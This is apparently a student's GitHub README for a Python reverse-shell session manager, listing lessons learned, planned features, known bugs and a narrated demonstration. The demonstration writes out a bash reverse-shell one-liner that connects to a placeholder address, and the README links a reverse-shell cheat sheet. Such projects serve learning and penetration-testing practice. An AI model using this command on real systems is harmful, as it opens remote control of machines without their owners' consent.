






# Automatic Goggles

Automatic googles is a program that allows you to manage multiple remote sessions on other machines. It allows you to switch between sessions and run commands on target machines.

## Things I learned

- I learned how to implement classes in python and that they can make things a lot easier.
- I learned more about socket programming in Python.
- [I learned about the different methods of sending reverse shells.](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- I learned more about programming in python and developed useful skill in regards to building larger programs. 

## Future Additions
- Upload/Download files.
- Some automation with Post-Exploitation.

## Current issues
- When you are in a shell running commands, you have to hit enter twice for the command to actually run and recive output. 
- Many other error handling things I need to go in and do. 

## Demonstration

Starting a listener for the connection...

Recieving connection from compromised host (my helpful friend Josh Hammrich)...

Reverse shell method used -> `bash -i >& /dev/tcp/<myip>/1337 0>&1`

Dropping into a shell on the new session...

Executing commands...

Killing connection...

Running local commands inside of automatic-goggles...

